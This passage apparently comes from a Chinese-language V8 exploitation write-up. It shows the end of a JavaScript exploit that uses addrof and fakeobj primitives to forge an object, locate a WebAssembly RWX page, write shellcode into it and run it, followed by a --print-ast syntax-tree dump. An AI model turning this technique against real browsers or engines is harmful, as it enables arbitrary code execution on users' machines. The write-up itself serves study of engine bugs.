```
    let fakeobj = function(addr) {
        proxy[26] = addr;
        var obj = v4[0];
        return obj;
    }

    let ab = new ArrayBuffer(0x100);
    let abAddr = addrof(ab);
    print("array buffer : " + hex(abAddr));


    let wasmObj = addrof(f) - u2d(0x108, 0);

    doubleMap = proxy[34];

    var fake = [
        doubleMap, 0,
        wasmObj, u2d(0, 0x8)
    ].slice();
    var fakeAddr = addrof(fake) - u2d(0x20, 0);
    print("fake_addr : " + hex(fakeAddr));
    var target = fakeobj(fakeAddr);

    let rwx = target[0];
    print("rwx : " + hex(rwx));
    fake[2] = abAddr + u2d(0x10, 0);
    target[0] = rwx;

    let dv = new DataView(ab);
    for (var i = 0; i &lt; shellcode.length; i++) {
        dv.setUint32(i * 4, shellcode[i]);
    }
    f();

}

test();
```

​ —print-ast查看一下exp中生成的语法树

```
......

[generating bytecode for function: run]
--- AST ---
FUNC at 122
. KIND 0
. SUSPEND COUNT 0
. NAME "run"
. PARAMS
. . VAR (0x55f76877bc10) (mode = TEMPORARY, assigned = true) ""
. DECLS
. . VARIABLE (0x55f76877bb18) (mode = LET, assigned = false) "prop"
. . VARIABLE (0x55f76877bbc0) (mode = LET, assigned = false) "args"
. BLOCK NOCOMPLETIONS at -1
. . EXPRESSION STATEMENT at -1
. . . INIT at -1
. . . . VAR PROXY local[0] (0x55f76877bb18) (mode = LET, assigned = false) "prop"
. . . . VAR PROXY parameter[0] (0x55f76877bc10) (mode = TEMPORARY, assigned = true) ""
. . EXPRESSION STATEMENT at -1
. . . INIT at -1
. . . . VAR PROXY local[1] (0x55f76877bbc0) (mode = LET, assigned = false) "args"
. . . . VAR PROXY local[2] (0x55f76877bc40) (mode = TEMPORARY, assigned = true) ""
```
